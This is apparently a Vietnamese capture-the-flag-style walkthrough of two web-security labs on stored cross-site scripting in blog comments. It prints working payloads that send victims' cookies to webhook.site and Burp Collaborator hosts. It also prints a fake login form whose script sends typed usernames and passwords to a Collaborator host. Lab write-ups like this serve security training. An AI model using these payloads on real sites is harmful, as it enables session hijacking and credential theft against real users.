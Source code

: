 
## Lab: 

Chức năng bình luận có vẻ tồn tại lỗ hổng XSS tại phần để lại bình luận. Đây là phần body sau khi bắt từ burp suite:
![image](https://user-images.githubusercontent.com/68894302/170539152-c664fb5e-b7c5-4ae1-a687-9bd0c9ff8b49.png)

Và sau đó quay lại một thông báo popup hiện lên. 

![image](https://user-images.githubusercontent.com/68894302/170539389-09ec295b-dbae-4194-97ca-0f9e6fdcda55.png)

Payload phần comment như sau:
```
<img src=x onerror="this.src='https://webhook.site/85314239-8e84-48ea-aa6e-f863eed00ded/?c='+document.cookie; this.removeAttribute('onerror');">
```
Vì challenge này không cho phép trang web bên trang thứ 3 nên phải dùng burp collab
```
<img src=x onerror="this.src='http://929bwso8dq7aig0yv68ymojf268wwl.burpcollaborator.net/?c='+document.cookie; this.removeAttribute('onerror');">
```
Sau khi poll thì chúng ta nhận được giá trị cookie trong phần request, dùng cookie đó để thay thế cookie hiện tại.
![image](https://user-images.githubusercontent.com/68894302/170543325-a4f3c92a-7afc-4ae5-9c8a-63a7e1cc6923.png)

---
## Lab: Exploiting cross-site scripting to capture passwords
> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Đây là một challenge liên quan đến store XSS tức là đoạn mã javascript sẽ được lưu lại kể cả sau khi session hết hạn. 

Để lấy username và password của người dùng thì chúng ta cần tạo 1 form login giả ở phần bình luận mục đích là lừa người dùng, vì chúng ta có thể chèn trực tiếp mã JS mà không bị encode các kí tự đặc biệt

```
<input required="" type="text" name="username">
<input required="" type="password" name="password">
<script>document.location='http://pa3atd45zyl03tnxu6h7lw42ctik69.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&password='+document.getElementsByName("password")[0].value</script>
```
Nhưng nhận được kết quả chưa có thông tin gì về username và password có thể do quá trình tạo `document.location` tính năng tự động điền chưa được thực hiện.
![image](https://user-images.githubusercontent.com/68894302/170563118-1459c91e-e626-4d26-8ed9-92baaf1a5e77.png)
Dùng thuộc tính `onchange` vào trong thẻ input của password để quan sát sự thay đổi .
```
<input required="" type="text" name="username">
<input required="" type="password" name="password" onchange="document.location='http://0421a7pdyngvuefhurnsavp12s8iw7.burpcollaborator.net/?user='+document.getElementsByName('username')[0].value+'pass='+document.getElementsByName('password')[0].value">
```
Và chúng ta nhận được thông tin về username và password
![image](https://user-images.githubusercontent.com/68894302/170564092-867762cb-f694-4cd1-a3d0-8763dd067b5f.png)
